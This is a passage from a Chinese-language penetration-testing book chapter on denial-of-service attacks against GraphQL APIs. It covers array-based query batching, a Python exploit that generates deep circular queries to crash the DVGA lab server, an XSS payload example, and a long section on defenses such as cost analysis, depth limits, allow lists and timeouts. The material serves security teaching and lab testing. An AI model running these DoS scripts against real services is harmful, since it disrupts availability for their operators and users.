  pastes: [PasteObject]!
}
```

感叹号意味着 `pastes` 是非空的，因此数组必须有零个或多个项目。除非查询被明确限制，否则 GraphQL 将返回所有对象作为对 `pastes` 请求的响应。例如，如果数据库有 10,000 个对象，GraphQL 可能会返回全部 10,000 个。

包含 10,000 个对象的响应对于服务器（和客户端）来说是大量数据。服务器可以实现逻辑将返回对象的数量限制为更受限制的数量，例如 100。例如，它们可能会按创建时间对对象进行排序并仅返回最新的粘贴。这种过滤可以在数据库级别、GraphQL 级别或两者同时进行。

一些 GraphQL 应用程序可能允许客户端通过传递诸如 `limit` 之类的特殊参数来覆盖此服务器端对象限制，如此示例所示。继续在 Altair 中运行此查询：

```
query {
  pastes(limit:100000, public: true) {
    content
  }
}
```

执行此查询时，GraphQL 可能在幕后将其转换为 SQL 查询，如下所示：

```
SELECT content FROM pastes WHERE public = true LIMIT 100000
```

在 DVGA 这样的小型数据库上，这不会造成多大危害。然而，在非常大的数据库上，控制服务器返回的行数可能非常强大，并且可能允许我们执行数据库级别的 DoS。

如果启用了 introspection，GraphQL 将在你输入时自动补全参数，使得发现查询支持的参数变得很容易。如果禁用了 introspection，请尝试常见的关键字，例如 `limit`、`offset`、`first`、`after`、`last`、`max` 和 `total`。这些关键字通常与 API 分页相关联，分页是一种控制 HTTP 响应中返回的数据量的方式。分页将大型数据集分成较小的部分，这允许客户端以块的形式请求和接收数据。

值得测试服务器允许客户端请求多少个对象。能够从服务器请求任意数量的记录的能力可能成为应用程序中的另一个 DoS 向量。

## 基于数组的查询批处理

现在我们将探索一个非常方便地允许我们扩展到目前为止所学攻击的功能。查询批处理是用于将多个查询分组并并行发送到 GraphQL API 的任何方法。别名是查询批处理的一种形式。

虽然有用，但别名有一个明显的缺点，即它们只能批处理相同操作根类型的查询。例如，你不能将 mutation 和 query 一起别名。数组批处理技术允许我们混合查询和 mutation。然而，数组不是规范的一部分，因此在所有渗透测试中可能都不可用。

### 了解基于数组的查询批处理的工作原理

基于数组的查询批处理是一种功能，允许客户端在 JSON 负载的一部分中以数组的形式发送多个任何根类型的 GraphQL 查询。假设我们想要多次发送一个查询并多次接收相同的响应。使用基于数组的查询批处理，我们可以通过本质上复制此查询并将副本添加为数组的元素来轻松实现。以下是伪查询示例：

```
[ query { ipAddr title content } query { ipAddr title
```

```
content
}
]
```

当 GraphQL 从客户端接收到查询数组时，它将按顺序处理它们，并在最后一个数组元素被处理和解析之前不返回响应。一旦所有查询都被解析，它将返回一个包含所有查询响应的数组作为单个 HTTP 响应。

你的黑客直觉可能在此时开始发挥作用，因为这里存在明显的风险。假设客户端将发送合理数量的查询到数组中。但如果客户端在单个数组中发送数千个查询会怎样？让我们来看看。剧透：会发生坏事。

与别名一样，识别基于数组的批处理查询的滥用可能很困难，因为安全分析师在日志中看到的只是一个 HTTP 请求。这可能不会立即显现为恶意模式。因此，这种技术可能会绕过传统的速率限制控制，这些控制可能限制客户端每秒请求数（RPS）或每分钟请求数（RPM）。

在本章末尾，我们将讨论应用程序可以实施的一些潜在缓解措施来处理批处理查询。

### 测试基于数组的查询批处理

GraphQL IDEs 如 Altair、GraphQL Playground 和 GraphiQL Explorer 不直接从界面支持基于数组的查询。因此，为了测试 DVGA 是否启用了基于数组的查询批处理，我们需要使用 HTTP 客户端，如 cURL 或脚本语言，如 Python。我们将在实验室中展示如何使用这两种方法。

### 使用 cURL

清单 5-12 中的命令使用 cURL 发送查询数组。

```
# curl http://localhost:5013/graphql -H "Content-Type: application/json" -d '[{"query":"query {systemHealth}"},{"query":"query {systemHealth}"}]'
[
  {"data":{"systemHealth":"System Load: 0.03 \n"}},
  {"data":{"systemHealth":"System Load: 0.03 \n"}}
]
```

清单 5-12：使用 cURL 的基于数组的批处理查询

在此 cURL 命令中，我们使用 `-d` 标志将 GraphQL 查询数组发送到服务器。数组由方括号 [] 定义，围绕两个相似的 GraphQL 查询。在每个查询中，我们使用 `systemHealth` 对象。GraphQL 服务器返回两个单独的响应。

如果 GraphQL 服务器支持发送包含两个 GraphQL 查询的数组将导致相等数量的查询响应


基于数组的查询批处理。可以通过我们在响应中收到的 data JSON 字段判断出这种情况。当使用 -d 标志时，cURL 在底层使用 HTTP POST 方法。

## 使用 Python

同样的查询也可以使用 Python 执行，如清单 5-13 所示。

```
import requests

queries = [
    {"query":"query {systemHealth}"},
    {"query":"query {systemHealth}"}
]

r = requests.post('http://localhost:5013/graphql', json=queries)

print(r.json())
```

清单 5-13：使用 Python 进行基于数组的批处理查询

我们声明一个 queries 数组，其中包含两个 systemHealth 查询。然后我们将它们作为一批发送给 DVGA 并打印响应。这应该返回一个包含两个元素的数组，每个元素都是对单个查询的响应。你可以在 GitHub 仓库中找到这段代码，地址为 https://github.com/dolevf/Black-Hat-GraphQL/blob/master/ch05/array_based_batch_query.py。

将文件保存到桌面并运行以下命令：

```
# cd ~/Desktop
# python3 array_based_batch_query.py
```

```
[
    {'data': {'systemHealth': 'System Load: 1.49\n'}},
    {'data': {'systemHealth': 'System Load: 1.49\n'}}
]
```

不支持基于数组批处理的 GraphQL 服务器可能会抛出 HTML 错误，因为它们没有实现处理数组负载的逻辑。支持数组但已禁用数组的服务器可能会返回如下错误：

```
{'errors': [{'message': 'Batch GraphQL requests are not enabled.'}]}
```

接下来，我们将探讨如何通过结合循环查询和基于数组的查询批处理来执行 DoS 攻击。

## 串联循环查询和基于数组的查询批处理

使用循环查询与基于数组的批处理相结合可能会对 GraphQL 服务器造成破坏，甚至可能使其瘫痪。请考虑清单 5-14 中的循环查询。

```
query {
  pastes {    # level 1
    owner {    # level 2
      pastes { # level 3
        owner { # level 4
          name  # level 5
        }
      }
    }
  }
}
```

清单 5-14：一个循环查询

此递归查询的深度级别为五。单独使用可能不足以使目标服务器崩溃，但我们可以修改它使其更深。每个级别都会创建一个服务器需要处理和解析的额外节点，从而消耗更多服务器资源。

为了尝试循环查询，我们为你的黑客工具库编写了一个自定义漏洞利用程序。此漏洞利用程序可以通过让你指定应执行的循环次数来动态扩展其循环性。查询还能够使用数组进行批处理。以下代码摘自 https://github.com/dolevf/Black-Hat-GraphQL/blob/master/ch05/array_based_circular_queries.py：

```
ARRAY_LENGTH = 5
FIELD_REPEAT = 10

query = '{"query":"query {"'
field_1_name = 'pastes'
field_2_name = 'owner'

count = 0
for _ in range(FIELD_REPEAT):
    count += 1
    closing_braces = '}' * FIELD_REPEAT * 2 + '}'
    payload = "{0} {{ {1} {{ ".format(field_1_name, field_2_name)
    query["query"] += payload

    if count == FIELD_REPEAT:
        query["query"] += '__typename' + closing_braces
--snip--
queries = []
for _ in range(ARRAY_LENGTH):
    queries.append(query)

r = requests.post('http://localhost:5013/graphql', json=queries)

print(r.json())
```

此代码基于清单 5-14 中的查询，通过根据两个主要脚本输入 ARRAY_LENGTH 和 FIELD_REPEAT 动态生成循环查询并将其添加到数组中。ARRAY_LENGTH 是要组合在一起的查询数量。值为 5 表示数组将有五个查询。FIELD_REPEAT 表示脚本将把循环字段（pastes 和 owner）附加到查询中的次数。

脚本随后使用 for 循环根据 FIELD_REPEAT 的值构建查询并将其分配给 query 变量。我们初始化一个名为 queries 的空数组并运行另一个 for 循环，将我们构建的查询添加到 queries 数组中。简单来说，我们构建一个循环查询，根据预定义值将其添加到数组中，然后发送到目标。

我们鼓励你在实验室中运行此脚本以了解其工作原理！将脚本下载到实验室并在运行前设置可执行（+x）权限：

```
# python3 array_based_circular_queries.py

Query: query {pastes { owner { ... } } }
Query Repeated: 10 times
Query Depth: 21 levels
Array Length: 5 elements
```

脚本将输出查询以及有关它的一些信息，例如字段重复次数、查询的深度级别以及发送到服务器的数组长度。你可以更改 FIELD_REPEAT 和 ARRAY_LENGTH 来观察服务器响应性的变化，通过动态增长查询和数组。

这里没有神奇的数字；你需要逐步增加字段数量，直到目标服务器明显变慢。根据我们的实验室实验，将 FIELD_REPEAT 设置为至少 500 应该会导致 DVGA 因段错误而崩溃。在这种情况下，请按照第 2 章中的实验室设置指南重新启动它。

## 使用 BatchQL 检测查询批处理

某些 GraphQL 工具会尝试检测目标 GraphQL 服务器上是否可用批处理。例如，BatchQL 是一个小型 Python 实用程序，用于扫描 GraphQL 弱点。它能够通过发送预检请求并观察服务器返回的错误来检测基于别名的批处理和基于数组的批处理。以下代码演示了它用于检测基于数组的批处理的逻辑：

```
repeated_query_list = "query { assetnote: Query { hacktheplanet } }"
repeated_query_dict = [{"query": repeated_query_list}, {"query":  repeated_query_list}]
repeated_query_success = False
try:
    r = requests.post(args.endpoint, headers=header_dict,
        json=repeated_query_dict, proxies=proxies, verify=False)
    error_count = len(r.json())
--snip--
    if error_count > 1:
        print("Query JSON list based batching: GraphQL batching is possible... preflight request was successful.")
```

在此示例中，BatchQL 使用字段 hacktheplanet 创建一个 GraphQL 查询。然后它创建一个包含该查询两个副本的数组。BatchQL 将数组发送到目标服务器并计算响应中返回的错误数量。如果错误数量大于一，则意味着服务器处理了两个查询。

它查找返回的错误数量的原因是查询包含 hacktheplanet 字段，该字段可能不存在于任何真实目标上。因此，GraphQL 会为每个无法处理的查询返回一个错误。BatchQL 对其基于别名的批处理检测也使用相同的错误计数逻辑。

让我们现在尝试对 DVGA 运行 BatchQL，看看我们能得到什么输出。使用 -e 标志指定 GraphQL 端点：

```
# cd BatchQL
# python3 batch.py -e http://localhost:5013/graphql

CSRF GET based successful. Please confirm that this is a valid issue.
CSRF POST based successful. Please confirm that this is a valid issue.
Query name based batching: GraphQL batching is possible... preflight request was successful.
Query JSON list based batching: GraphQL batching is possible...preflight request was successful.
```

BatchQL 能够检测到基于数组的批处理和基于别名的批处理都可用。

## 使用 GraphQL Cop 执行 DoS 审计

GraphQL Cop 是一个基于 Python 的安全审计实用程序，能够在 GraphQL 应用中发现 DoS 和信息泄露弱点。它可以识别本章涵盖的大多数 DoS 类别。让我们使用此工具对 DVGA 进行测试，看看在不费太多力气的情况下能快速发现哪些漏洞。

GraphQL Cop 只需很少的参数即可完成工作。要执行审计，请使用以下命令运行它：

```
# cd ~/graphql-cop
# python3 graphql-cop.py -t http://localhost:5013/graphql

    GraphQL Cop
    Security Auditor for GraphQL
    Dolev Farhi & Nick Aleks

[HIGH] Alias Overloading - Alias Overloading with 100+ aliases is allowed (Denial of Service)
[HIGH] Batch Queries - Batch queries allowed with 10+ simultaneous queries (Denial of Service)
[HIGH] Field Duplication - Queries are allowed with 500 of the same repeated field (Denial of Service)
[HIGH] Directive Overloading - Multiple duplicated directives allowed in a query (Denial of Service)


正如你所见，我们得到的输出包含每个漏洞的描述及其预定义的严重程度。该工具能够在 DVGA 中识别出四个 DoS 攻击向量。如果你在渗透测试期间需要以编程方式解析此信息，你可能需要一种更适合脚本的输出。要实现这一点，请使用 -o json 标志。

## GraphQL 中的拒绝服务防御

我们已经探讨了针对 GraphQL 目标执行 DoS 攻击的各种技术。虽然大多数 GraphQL 实现默认不包含全面的 DoS 缓解措施（有一些例外），但可以对我们讨论过的攻击进行防护。

## 查询成本分析

复杂查询对服务器的处理成本很高，尤其是在同时发送大量查询时。在进行渗透测试时，你可能会遇到实现成本分析器的 GraphQL 服务器。该术语指的是任何根据 GraphQL 字段的处理“成本”来为其分配数值系统的系统。处理涉及 CPU、输入/输出（I/O）、内存和网络资源消耗。

查询成本分析可以通过多种方式实现，例如在执行前使用静态分析评估查询结构，或在查询完全解析后观察查询响应。

## 静态为查询分配成本

成本分析的更常见形式是静态分析。例如，考虑以下查询：

```
query {
  pastes {
    title
    content
    userAgent
    ipAddr
    owner {
      name
    }
  }
}
```

我们使用顶层的 pastes 字段并指定了一些字段，例如 title、content 和 owner。

通过静态分析，可以以不同的方式为查询分配成本。常见的一种方式是使用专用的模式指令为每个字段或每个对象类型指定值。以下示例模式说明了如何通过使用模式指令实现成本分配：

```
directive @cost(
  complexity: Int = 1
) on FIELD_DEFINITION | OBJECT

type PasteObject {
  title: String @cost(complexity: 1)
  content: String @cost(complexity: 1)
  userAgent: String @cost(complexity: 5)
  ipAddr: String @cost(complexity: 5)
}
```

这里，一个特殊的 cost 指令接受一个 complexity 参数，而 complexity 参数接受一个整数值。如果未向 complexity 参数提供值，则默认为 1。在模式中，PasteObject 中的字段根据其解析的资源密集程度分配了一些成本值。（想象一个需要服务器对多个第三方服务执行上游检查的字段，而与一个可以直接从本地数据库读取解析的字段相对。）

基于此模式定义，我们可以按如下方式将指令添加到我们的查询中：

```
query {
  pastes {
    title    # cost: 1
    content  # cost: 1
    userAgent # cost: 5
    ipAddr   # cost: 5
  }
}
```

此查询的总成本为 12。知道总成本后，GraphQL 服务器可以决定是否应接受查询或因其被认为成本过高而拒绝它。

NOTE
- 某些 GraphQL 实现如果未显式设置成本值，会自动为字段分配值为 1。

许多静态成本分配库不会将成本信息持久化到任何数据库或缓存中。因此，实际上，每个查询都是按查询评估的。为了说明未能跟踪成本使用的危险，请考虑图 5-6 中的图表。



图 5-6：无状态成本分析的危险

这里，GraphQL 服务器已将允许的最大成本（MAX_COST）设置为 200。在此示例中，成本为 200 及以下的查询将被接受，这意味着如果客户端发送多个并行查询，所有成本均为 200，则全部将被接受。如果应用程序的后端无法或准备好承受如此成本的并行查询，这可能会带来风险。想象一下攻击者使用允许的最大成本发送数千个请求；如果限制过于宽松，这可能会使应用程序窒息。

## 动态为服务器响应分配成本

成本分析也可以在查询完全解析后对服务器的响应执行。服务器必须首先处理查询才能了解其成本。然而，查看实际解析的查询可以提供比静态技术更准确的成本估计。

这种动态方法相对于静态方法的优势在于，动态成本分配考虑了服务器返回的响应复杂性。想象一下客户端请求单个字段，结果服务器返回包含 1,000 个元素的数组。在这种情况下，响应表明了一种复杂程度，无法仅通过查看查询来推断。

## 使用基于积分的速率限制

GraphQL 服务器可以设计为在客户端会话生命周期内跟踪所进行的查询成本。跟踪此信息允许服务器设置按小时或按天的配额限制，并在超过一定限制后拒绝查询，作为基于积分系统的部分。例如，服务器可能会为每个用户会话或每个源 IP 地址设置每小时积分额度（如 1,000）。如果查询的静态成本为 200，则客户端每小时只能进行这五个查询中的五个。要再次查询，他们必须等待积分额度配额续期。

然而，要使此机制正常工作，服务器必须在数据库中跟踪和存储客户端的 API 使用数据。否则，基于成本的查询限制将不得不保持无状态，这在 GraphQL API 中很常见。

## 在响应中发现查询的成本

正如你所学到的，有几种方法可以在 GraphQL API 中实现成本分析控制。在某些实现中，你可能会在查询响应中看到与成本相关的元数据。考虑以下 GraphQL 响应示例，该示例使用 extensions 响应字段向客户端提供与成本相关的信息：

```
{
  "data": {
  --snip--
  },
  "extensions": {
    "cost": {
      "credits_total": 1000,
```

```
"credits_remaining": 990,
}
}
}
```

extensions 字段用于向客户端返回一些元数据。此元数据通常与查询跟踪、查询成本计算或其他调试信息相关。在此示例中，credits_total 是可用积分总数，而 credits_remaining 是剩余积分的当前数量。

你可能会问自己，为什么 GraphQL 服务器首先会与客户端共享此信息。客户端可以利用它来确定查询何时可能开始被服务器限流并可能失败。这有助于客户端构建更好的错误处理逻辑。

当然，成本信息的可用性对黑客来说也很有价值。如果我们有一种方法可以知道我们的查询何时会被服务器接受（例如在按小时计费的情况下），我们就有一种方法可以确定下一次积分可用时何时发起新的攻击，而不是反复发送会被阻止的请求。

## 查询深度限制

本章前面我们讨论了循环查询以及 GraphQL 中递归查询如何耗尽服务器资源。为了保护 GraphQL 服务器免受递归查询的影响，应用程序可以设置查询深度限制。例如，将 max_depth 配置设置为 10 的值将只允许最多 10 层深度。任何超过允许深度的查询都将被拒绝。

一些更成熟的 GraphQL 实现开箱即用地支持深度分析或通过利用专门为此目的编写的外部库。让我们看看如何在 graphql-ruby（Ruby）和 Graphene（Python）中实现查询深度限制。

在 graphql-ruby 中，可以在 MySchema 类中设置最大深度限制：

```
class MySchema < GraphQL::Schema
  --snip--
  max_depth 10
end
```

在 Graphene 中，可以按以下方式设置最大深度限制：

```
schema = Schema(query=MyQuery)

validation_errors = validate(
    schema=schema.graphql_schema,
    document_ast=parse('THE QUERY'),
    rules=(
        depth_limit_validator(
            max_depth=20
        ),
    )
)
```


深度通常是按查询计算的。如果攻击者同时发送多个递归查询，这仍然会对服务器造成相当大的影响。

## 别名和基于数组的批处理限制

由于 GraphQL 别名是 GraphQL 规范的一部分，因此开发人员无法轻易禁用它们。防止别名被滥用需要自定义中间件代码来解析传入的查询，统计指定的别名数量，并在数量高到可能危险时拒绝请求。对于这种控制要在 GraphQL 应用中存在，其开发人员首先需要意识到别名造成的<|message|>安全弱点。

与别名不同，基于数组的批处理不是规范文档的一部分。它通常需要安装额外的包或在代码中启用该功能。让我们看看在 Graphene 中禁用基于数组的批处理是什么样的：

```
app.add_url_rule('/graphql', view_func=GraphQLView.as_view(
    'graphql',
    schema=schema,
    --snip--
    batch=True
))
```

batch 参数接受 True 或 False 的布尔值。如果我们将其切换为 False，Graphene 将拒绝处理任何数组。这是一个例子，说明 GraphQL 服务器实现原生支持禁用批处理，并且不需要自定义代码。

在渗透测试中，使用 GraphQL 指纹工具如 Graphw00f 来识别目标服务器实现。然后你可以使用我们整理的 GraphQL Threat Matrix 项目（https://github.com/nicholasaleks/graphql-threat-matrix）来识别诸如基于数组的批处理等功能是否可用。如果它们存在，弄清楚它们是否可以被禁用。这些见解将有助于在渗透测试报告的修复部分中记录下来。

## 字段重复限制

默认情况下，GraphQL 会解析查询中指定的任何字段，即使它被指定多次。即使如此，我们仍可以通过多种方式缓解字段重复攻击。

虽然它并不能直接解决字段重复问题，但查询成本分析在单个查询中指定大量字段时可以保护 GraphQL 应用（无论是否重复）。成本分析是对任何涉及在单个查询中指定许多字段的攻击形式的有效缓解措施。

另一种保护形式是使用中间件安全分析器检查传入的查询，如果任何字段重复出现超过一次则采取行动。应用程序可能会选择实施多种操作，例如完全拒绝查询或通过合并重复字段来规范化查询以消除重复。这本质上是以更安全的方式重构原始查询。目前，GraphQL 中没有此功能。应用程序开发人员需要自行开发中间件或使用第三方安全工具来完成此操作。

应用程序抵御字段重复的另一种方式是通过计算查询的字段“高度”。请考虑图 5-7 中的查询。



图 5-7：一个 GraphQL 查询高度示例

此查询请求 owner 字段，然后请求 owner 字段的 id（一次）和 name（四次）。正如你所见，总高度为 5。应用程序可能会限制超过特定允许高度的任何查询。请记住，默认情况下，GraphQL 不实现此类控制。

## 返回记录数限制

GraphQL 服务器可以在客户端请求数组字段时限制返回的对象数量。为此，它们可以在服务器端设置返回的最大项目数，并阻止客户端覆盖它。以下是如何在 Graphene 中实现此操作的示例：

```
def resolve_pastes(self, info, public=False):
    query = PasteObject.get_query(info)
    return query.filter_by(public=public, burn=False).order_by(Paste.id.desc()).limit(100)
```

此示例解析器函数用于 pastes 查询。limit 确保无论数据库中存在多少 pastes，返回的 pastes 最大数量为 1,000。

限制响应中返回的记录数的另一种方法是引入 API 分页，这控制客户端在单个请求中可以检索的记录数。

## 查询允许列表

应用程序可能实施的另一种防御技术是允许列表方法。允许列表的概念很简单：你定义应用程序可以接受的 GraphQL 查询，并拒绝不在列表中的任何查询。你可以将此视为受信任查询的安全列表。

允许列表方法通常比使用拒绝列表更安全，后者更容易出错。恶意负载可以通过多种方式构造，如果在构建拒绝列表时没有考虑到所有这些变体，攻击者可能会找到绕过它的方法。

查询允许列表通常不存在于 GraphQL 服务器实现中，也很少有外部库实现它们。要利用此类功能，GraphQL 应用程序开发人员必须为其实现寻找兼容的库或从头创建。

## 自动持久化查询

查询允许列表通常与一种称为 *自动持久化查询 (APQ)* 的缓存机制一起使用，该机制用于提高 GraphQL 查询的性能。GraphQL 服务器实现 APQ 后，可以接受代表这些查询的哈希，而不是使用正常的 GraphQL 查询结构。

在 GraphQL 客户端和服务器之间的 APQ 交互中，客户端首先尝试发送查询的哈希（例如 SHA-256 哈希）。服务器在缓存中执行哈希查找。如果哈希不存在，服务器返回错误。客户端随后可以跟进另一个请求，其中包含原始 GraphQL 查询及其哈希，该哈希将被存储在服务器数据库中。客户端可以在后续请求中使用此哈希，而无需提供完整查询。哈希可能如下所示：

```
{
  "persisted_query": {
    "sha256Hash": "5e734424cfdde58851234791dea3811caf8e8b389cc3aw7035044ce91679757bc8"
  }
}
```

要生成任何查询的 SHA-256 哈希，可以使用 sha256sum 命令，如下所示：

```
# echo -n "{query{pastes{owner{id}}}}" | sha256sum
5e734424cfdde58851234791dea3811caf8e8b389cc3aw7035044ce91679757bc8
```

这里的优势在于哈希算法产生固定长度的值（例如，SHA-256 哈希长度为 64 个字符），无论查询有多大。这消除了客户端需要在网络上传输包含大型查询的 HTTP 请求的需要，并减少了整体带宽消耗。图 5-8 说明了具有 APQ 的 GraphQL 部署可能是什么样子。



图 5-8：APQ 架构

你可能已经注意到一个弱点。如果客户端是攻击者并强制服务器缓存恶意查询呢？攻击者是否能在后续查询中使用它？这是一个很好的问题，也是为什么 APQ 机制应与允许列表等功能共存的原因。服务器应在查询被缓存之前拒绝恶意查询，以便只有受信任的查询才能插入缓存。

APQ 首先设计为缓存机制，但它也可以作为安全控制来保护 GraphQL 服务器免受恶意查询的接受。APQ 尚未广泛使用，但在市场上一些成熟的 GraphQL 实现中得到支持，例如 Apollo GraphQL。你可以参考 GraphQL Threat Matrix 项目来了解哪些实现支持 APQ。

## 超时

超时是防止长时间运行和消耗资源的任务的另一种保护形式。当 GraphQL 服务器被大量查询轰炸时，完成请求可能需要几分钟时间。为缓解这些情况，服务器可以引入应用程序超时，定义请求完成所需的最长时间。

一些 GraphQL 实现，例如 graphql-ruby，允许以以下方式设置查询执行的超时：

```
class MySchema < GraphQL::Schema
  use GraphQL::Schema::Timeout, max_seconds: 20
end
```

然而，并非所有 GraphQL 实现都以这种方式支持设置查询超时。那些 GraphQL 应用程序可以在 Web 服务器层使用超时，例如 Nginx 或 Apache，它们支持设置超时。

设置合适的应用程序超时间隔往往是一项棘手的任务；超时配置过短可能意味着丢弃合法的客户端请求并影响客户端的用户体验，这就是为什么应用程序通常默认设置较高的超时值。Nginx 和 Apache 都将请求超时值设置为大约 60 秒范围。


超时可以有效，但不应是 GraphQL 应用程序实施的唯一缓解策略。

## Web 应用防火墙

Web 应用防火墙（WAF）对于在恶意流量到达应用程序之前阻止其很有用。它们允许安全团队通过创建基于各种模式（如 HTTP 有效负载、URL 或客户端地理位置）阻止流量的签名和规则，快速响应攻击和漏洞。

WAF 已在生产环境中经过多年实战检验，保护了众多行业中的 Web 应用程序和 API，例如 REST 和 SOAP。然而，商业和开源 WAF 仍在适应 GraphQL 的工作方式，以及攻击者可能滥用 GraphQL 用于恶意目的的方式，因此 WAF 能够为 GraphQL 应用程序提供的保护仍存在一些差距。

尽管某些 WAF 并非“GraphQL 感知”，但它们检查流量的方式仍允许其检测许多恶意有效负载。它们可以阻止可疑有效负载，例如 SQL 注入、操作系统注入、跨站脚本（XSS）等，即使这些有效负载嵌入在 GraphQL 查询或变更中。

考虑以下 GraphQL 查询中的 XSS 示例：

```
mutation {
  changeName(name:"<script>alert(1)</script>") {
    name
  }
}
```

即使没有原生 GraphQL 支持的 WAF 也很可能识别并拒绝包含此类常见利用有效负载的请求。此外，WAF 还可以提供其他形式的保护，例如以字节限制形式的主体大小限制以防止 DoS 攻击，或限流以减缓 DoS 尝试。

然而，没有 GraphQL 支持的 WAF 将难以防御本章中你所了解的许多攻击。例如，WAF 通常不会阻止单个 HTTP 请求，如果它们不包含任何恶意模式，例如危险的 JavaScript 有效负载（如 XSS），或 SQL 命令（在 SQL 注入的情况下）。尽管我们可以通过使用别名或基于数组的批处理在单个 HTTP 请求中发送数千个查询，但没有原生 GraphQL 支持的 WAF 不会理解接受此类请求的危险性。

## 网关代理

GraphQL 网关将多个 GraphQL 模式合并为一个统一的模式，要么通过拼接它们，要么通过连接到每个单独的 GraphQL 服务以获取其模式内容。然后该模式在网关层暴露供客户端使用。图 5-9 显示了这种应用程序部署模型可能的外观。



图 5-9：GraphQL 网关代理到其他服务的流量

GraphQL 网关在安全领域变得越来越流行，作为可以强制执行策略并执行速率限制的网络瓶颈。它们通常充当反向代理，将流量转发到其他内部 API 服务器，并可以管理多个 API 模式。网关还提供诸如可审计性、模式版本控制、授权控制、第七层 DoS 保护等功能。

## 总结

在本章中，我们讨论了攻击者可能向 GraphQL 服务器引入负载以进行 DoS 攻击的几种方式。我们使用了几种专用的 GraphQL 安全工具来测试 DoS 条件并剖析自定义漏洞利用，以了解其内部工作原理。你还了解了 GraphQL 中查询批处理的工作原理，以及如何通过使用数组和别名使 DoS 攻击更加强大。最后，我们探讨了 GraphQL 应用程序可以实施的各类安全防御措施，以保护自己免受 DoS 攻击。
